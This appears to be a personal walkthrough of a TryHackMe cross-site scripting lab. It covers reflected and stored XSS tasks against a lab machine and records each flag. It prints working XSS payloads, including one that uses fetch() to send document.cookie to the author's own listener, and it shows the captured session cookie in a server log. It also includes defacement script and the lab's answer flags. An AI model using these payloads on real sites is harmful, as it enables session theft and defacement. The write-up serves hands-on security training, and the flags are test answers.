 # 06. Cross-site Scripting

- Target: http://10.10.68.121

1) Navigate to http://10.10.68.121/ in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

- The source code

```
  <details>
        <summary>Why does this work?</summary></br>
        <p>When you submit anything in the search input, it will appear in the <b>keyword</b> query in your URL.</p>
        <p>Remember, the main difference between reflected and dom based xss, is that with reflected xss your
        payload (string in this case) gets inputted directly into the page. No Javascript is loaded before hand,
        neither is anything processed in the DOM before hand.</p>
        <p>Look at the source code, you will notice your payload is executed directly on the webpage.</p>
        <kbd>&lt;h6>You searched for: **[Your input will be input directly in here]**&lt;/h6></kbd>
        <p>This means any user input that is **not sanatised will be executed.**</p>
      </details>
```

⇒ The user input is not sanitized at all 

- The payload: `<script>alert("Hello");</script>`

**Result:** ThereIsMoreToXSSThanYouThink

2) On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

- According to hint in tryhackme, window.location.hostname will show your hostname, in this case your deployed machine's hostname will be its IP.
- The payload: <script>alert(window.location.host);</script>

Result: ReflectiveXss4TheWin

[Before changing to stored XSS]

- There is a technique simulating how to get cookie of other user so that if user clicks the link we send, our server will get the request that contains cookie of user
- Host the http server for ourselves by the command:  python3 -m http.server 8888
- The payload to send request with cookie: <script>var payload = 'http://10.17.24.66:8888/'+document.cookie; fetch(payload);</script>
- The result when we receive the request:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.17.24.66 - - [26/Feb/2024 08:58:58] code 404, message File not found
10.17.24.66 - - [26/Feb/2024 08:58:58] "GET /connect.sid=s%3AmyRul5pqABes83AFJlVUlGKmpbmCqA9-.9RMSMVFMRrarPMFdI0iwarMpxAdNsMmdx994kULs39g HTTP/1.1" 404 -
```

3) Then add a comment and see if you can insert some of your own HTML.

- Insert any html tag in the output bc the code is not sanitized at all: `<h1>Fuck </h1>` ⇒ create a tag successfully
- Here is the js code:

```
  let commentsEl = document.querySelector('#comments')
  if(commentsEl) {
    $.getJSON('/get-comments', function(comments) {
      commentsEl.innerHTML = ''
      for(let comment of comments) {
        // convertComment(comment.comment)
        fixJS(comment.comment)
        commentsEl.innerHTML += '<code>' + comment.username + '</code>: ' + comment.comment + '</br>'
      }
```

**Result:** Successfully added a HTML comment! Answer for Q1: HTML_T4gs

4) On the same page, create an alert popup box appear on the page with your document cookies.

- The payload to alert cookie: <script>alert(document.cookie)</script>

**Result:** W3LL_D0N3_LVL2

5) Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

- Firstly, we find ‘XSS playground’ in the source code, so we can see id 'thm-title'

```
img src="/img/smallLogo.png" height="30" class="d-inline-block align-top" alt="" style="margin-right: .5em;"> <span id='thm-title'>XSS Playground</span>
```

- Now we know that XSS playground has the id thm-title. Next, we will find the js code with #thm-title

```
function checkTitle() {
//[*] If the text content of the element with the ID 'thm-title' is "I am a hacker"
    if(document.querySelector('#thm-title').textContent == "I am a hacker") {
      $.getJSON('/get-answer-title-change', function(answer) {
// Display the fetched answer in an element with the ID 'stored-xss'
        document.querySelector('#stored-xss').innerHTML += 'Answer: <code>' + answer + '</code>'
      })
    }
  }

```

- The payload: <script>document.querySelector("#thm-title").textContent = "I am a hacker"</script>
- It will display the answer here

```
    <li>Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript. <span id="stored-xss"></span></li>
```

**Result:**  websites_can_be_easily_defaced_with_xss
